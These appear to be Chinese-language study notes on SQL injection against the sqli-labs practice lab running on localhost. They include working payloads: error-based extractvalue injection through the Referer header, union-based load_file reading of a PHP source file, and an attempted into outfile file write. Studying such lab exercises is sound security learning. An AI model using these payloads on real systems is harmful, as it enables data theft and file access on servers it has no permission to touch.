 ![截屏2021-06-10 上午1.41.25.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623260502648-dc12228f-99e1-4267-b045-bf182953be2a.png#crop=0&crop=0&crop=1&crop=1&height=1666&id=CcibJ&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.41.25.png&originHeight=1666&originWidth=2536&originalType=binary&ratio=1&rotation=0&showTitle=false&size=314805&status=done&style=none&title=&width=2536)<br />输入admin/admin进行登陆<br />登陆后发现页面返回referer，猜测referer存在注入<br />![截屏2021-06-10 上午1.42.18.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623260607589-ab269e00-20fe-4d26-9606-9f4ce345854c.png#crop=0&crop=0&crop=1&crop=1&height=1666&id=cbT1S&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.42.18.png&originHeight=1666&originWidth=2536&originalType=binary&ratio=1&rotation=0&showTitle=false&size=830279&status=done&style=none&title=&width=2536)<br />进行burp抓包<br />在referer后加入 '" 依此判断注入类型<br />![截屏2021-06-10 上午1.48.10.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623260964397-93acdbfb-86c9-4785-9e7d-3c44a7ca2756.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=h98rR&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.48.10.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=676834&status=done&style=none&title=&width=2696)<br />报错中出现逗号，考虑为insert注入<br />insert的语法格式为<br />insert into users values('16','lcamry','lcamry');<br />所以注入时应输入 ' and ' 来闭合前后的单引号<br />Referer: http://127.0.0.1:8081/Less-19/' and '<br />![截屏2021-06-10 上午2.17.30.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623262702648-59349a7d-2866-4b1e-ac9f-d44772abb5ed.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=Jbk5V&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%882.17.30.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=650734&status=done&style=none&title=&width=2696)<br />可见并没有报错<br />之后进行注入<br />输入<br />Referer: http://127.0.0.1:8081/Less-19/' and extractvalue(1,concat(0x7e,version(),0x7e)) and '<br />![截屏2021-06-10 上午2.20.54.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623262884112-5904457c-999c-4246-9019-dd2a884dfc72.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=rbAO3&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%882.20.54.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=645946&status=done&style=none&title=&width=2696)<br />查询数据表名<br />输入<br />Referer: http://127.0.0.1:8081/Less-19/' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and '<br />![截屏2021-06-10 上午2.24.02.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623263084896-eba9b5e6-4e23-437c-862d-9d696ee240ae.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=JvEz5&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%882.24.02.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=653019&status=done&style=none&title=&width=2696)<br />剩余同上
## SQL注入读写文件
**loadfile(file_name)**:读取文件并返回文件的内容作为一个字符串。使用条件：

1. 必须有权限读取并且文件必须完全可读
1. 欲读取文件必须在服务器上
1. 必须指定文件完整的路径
1. 欲读取文件必须小于 max_allowed_packet
### 文件读取
![截屏2021-06-10 下午11.26.43.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623338818458-e0b289bd-d7a0-4f86-8e3d-6df5e041c5a5.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=Up9Jl&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8B%E5%8D%8811.26.43.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=595390&status=done&style=none&title=&width=2604)<br />猜测本题的网站源码放置在如下目录<br />/var/www/html/Less-1<br />利用load_file函数，URL处输入<br />http://127.0.0.1:8081/Less-1/?id=-1' union select 1,2,hex(load_file("/var/www/html/Less-1/index.php")) %23<br />获取index.php的16进制编码形式<br />![截屏2021-06-10 下午11.59.57.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623340863707-1dd74c49-458d-429b-b29d-52b2b69b0b2a.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=l1cHB&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8B%E5%8D%8811.59.57.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=730651&status=done&style=none&title=&width=2604)<br />在burp中进行解码<br />![截屏2021-06-11 上午12.03.16.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623341012601-7a5c4b58-4853-43f3-a76c-32b0fb111803.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=eHSEG&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-11%20%E4%B8%8A%E5%8D%8812.03.16.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=386903&status=done&style=none&title=&width=2696)
### 文件写入
**into outfile "绝对路径"**<br />![截屏2021-06-11 上午12.06.39.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623341214228-5c33091d-973e-4518-aeb8-32f36e0b92c3.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=wIjHU&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-11%20%E4%B8%8A%E5%8D%8812.06.39.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=873505&status=done&style=none&title=&width=2604)<br />尝试文件写入，输入<br />http://127.0.0.1:8081/Less-7/?id=1')) union select 1,2,3 into outfile "/var/www/html/Less-1/baz.txt" %23<br />文件无法写入，猜测为Linux权限问题，暂时放弃……
# SQL注入绕过技巧
## 绕过注释符过滤
